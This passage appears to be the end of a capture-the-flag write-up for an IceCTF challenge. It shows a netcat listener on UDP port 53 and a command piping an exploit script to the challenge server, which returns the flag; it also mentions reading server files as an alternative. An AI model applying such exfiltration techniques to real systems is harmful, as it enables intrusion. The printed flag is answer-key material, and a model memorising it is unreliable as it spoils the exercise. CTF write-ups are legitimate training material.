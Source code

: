 
Finally I run the exploit and the flag is received in my server.

```bash
root@maro-vm:~# nc -lu 53
root@maro-vm:~# python exploit.py | nc slick.vuln.icec.tf 6601
IceCTF{m4ster1ng_the_4rt_of_f1x3d_p0ints}
```

  
The task can be solved in many other ways. Such overriding the web_root value, reading a file from the server and returning back the content over the active client connection.


That's all

Thanks for reading

